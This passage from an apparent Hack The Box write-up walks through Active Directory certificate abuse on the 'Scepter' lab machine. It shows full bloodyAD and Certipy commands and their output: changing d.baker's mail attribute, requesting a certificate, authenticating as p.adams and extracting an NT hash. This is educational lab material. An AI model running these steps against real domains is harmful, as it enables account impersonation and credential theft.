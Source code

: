 Now, change the email : 

```bash
➜ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'password' set object d.baker mail -v toto@scepter.htb

[+] d.baker's mail has been updated
```
Then we can just request the certificate again and auth as p.adams

```bash
➜ certipy req -username 'd.baker@scepter.htb' -hashes '18...ce' -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'

➜ certipy auth -pfx 'd.baker.pfx' -domain 'scepter.htb' -username 'p.adams'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: p.adams@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b...e0
```
<img src="../assets/gif/baby-kid.gif" alt="yay" width="550">
